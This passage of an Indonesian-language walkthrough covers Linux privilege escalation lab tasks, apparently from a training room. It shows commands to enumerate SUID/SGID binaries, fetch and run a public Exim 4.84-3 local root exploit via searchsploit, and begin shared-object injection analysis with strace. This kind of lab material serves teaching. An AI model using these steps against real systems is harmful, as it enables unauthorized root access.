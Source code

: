 7. atau kita dapat menggunakan `msfconsole` dengan multi handlernya.

# Task 11 - SUID / SGID Executables - Known Exploits

1. cari semua SUID/SGID executable di target

```shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
## atau
find / -perm -u=s -type f 2>/dev/null
```

2. lalu untuk kali ini kita fokus pada `/usr/sbin/exim-4.84-3`. Kita dapat mencari xploit untuk `exim 4.84` ini dengan searchsploit di kali.

```shell
searchsploit exim 4.84

###hasilnya
#...
# Exim 4.84-3 - Local Privilege Escalation                     | linux/local/39535.sh
#...
```

3. kita dapat copy xploit tersebut ke cwd dengan cara

```shell
searchsploit -m 39535
```

4. sebenarnya xploit sudah tersedia di target, namun for the sake of learning, kita dapat upload sendiri xploit ke target dengan `wget` dan `python`.

5. jika sudah selesai, maka kita dapat membuat file xploit menjadi executable di target dan run xploit tersebut.

```shell
chmod +x file.sh
./file.sh
```

# Task 12 - SUID / SGID Executables - Shared Object Injection 

1. cari SUID/GUID exec lagi

```shell
find / -perm -u=s -type f 2>/dev/null
```

2. kali ini kita berfokus pada `/usr/local/bin/suid-so`, yang mana vuln terhadap shared object. ketika kita run `/usr/local/bin/suid-so` akan keluar progress bar.

3. kita dapat gunakan `strace` untuk tracing progress bar tersebut.

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

### hasil
# ...
# open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
